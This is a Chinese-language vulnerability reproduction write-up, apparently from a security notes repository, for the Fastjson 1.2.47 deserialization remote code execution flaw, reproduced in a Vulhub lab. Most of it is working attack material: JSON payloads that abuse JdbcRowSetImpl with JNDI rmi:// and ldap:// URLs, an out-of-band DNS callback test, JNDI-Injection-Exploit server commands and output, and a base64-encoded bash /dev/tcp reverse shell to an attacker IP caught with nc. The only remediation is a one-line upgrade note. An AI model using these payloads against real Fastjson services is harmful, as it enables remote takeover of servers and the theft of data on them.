 # Fastjson_1.2.47_rce



### 1.1、漏洞描述

Fastjson是阿里巴巴公司开源的一款json解析器，其性能优越，被广泛应用于各大厂商的Java项目中。fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令

### 1.2、漏洞等级

高危

### 1.3、影响版本

1.2.47

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/fastjson/1.2.47-rce

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8090/`即可看到一个json对象被返回

![image-20230908152510843](./imgs/image-20230908152510843.png)

将content-type修改为`application/json`后可向其POST新的JSON对象，后端会利用fastjson进行解析

发送测试数据：

```json
{"name":"hello", "age":20}
```

![image-20230908154415076](./imgs/image-20230908154415076.png)



#### 2、漏洞检测

使用`BurpSuite`扩展插件[FastjsonScan](https://github.com/Maskhe/FastjsonScan)进行漏洞检测

![image-20230908154816188](./imgs/image-20230908154816188.png)

POC：

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://s0tgwxk05ll1qvmz0lwr27u0prvhj6.oastify.com/aaa",
        "autoCommit":true
    }
}
```

使用[dnslog](http://dnslog.cn/)测试

![image-20230908155219769](./imgs/image-20230908155219769.png)

![image-20230908155159842](./imgs/image-20230908155159842.png)

#### 3、漏洞验证

利用[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)工具开启`RMI`服务器



在`/tmp`目录下创建`hello`文件

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/demo" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> touch /tmp/demo
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fuk3fq
ldap://192.168.80.141:1389/fuk3fq
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/slgipa
ldap://192.168.80.141:1389/slgipa
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/zsjp7n

----------------------------Server Log----------------------------
2023-09-08 03:53:56 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 03:53:56 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 03:53:57 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908155413006](./imgs/image-20230908155413006.png)

发送POC到FastJson服务器，通过RMI协议远程加载恶意类

```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.80.141:1099/slgipa",
        "autoCommit":true
    }
}
```

![image-20230908155714367](./imgs/image-20230908155714367.png)

验证：

![image-20230908155512044](./imgs/image-20230908155512044.png)

### 1.5、深度利用

#### 1、反弹Shell

构造反弹shell，进行base64编码

```bash
bash -i >& /dev/tcp/192.168.80.141/1234 0>&1
```



![image-20230908160007728](./imgs/image-20230908160007728.png)

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
```

监听`1234`端口

```bash
nc -lvp 1234
```

开启RMI服务

```bash
┌──(kali㉿kali)-[~/tools/JNDI-Injection-Exploit/target]
└─$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}" -A "192.168.80.141"
[ADDRESS] >> 192.168.80.141
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjgwLjE0MS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/fd5cfs
ldap://192.168.80.141:1389/fd5cfs
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.80.141:1099/flbdik
ldap://192.168.80.141:1389/flbdik
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.80.141:1099/m8yxp6

----------------------------Server Log----------------------------
2023-09-08 04:02:36 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-08 04:02:36 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-08 04:02:36 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

![image-20230908160300497](./imgs/image-20230908160300497.png)

POC:
```bash
{
    "axin":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "is":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.80.141:1389/fd5cfs",
        "autoCommit":true
    }
}
```

![image-20230908160403275](./imgs/image-20230908160403275.png)

获得Shell

![image-20230908160425477](./imgs/image-20230908160425477.png)



### 1.6、修复建议

升级版本到最新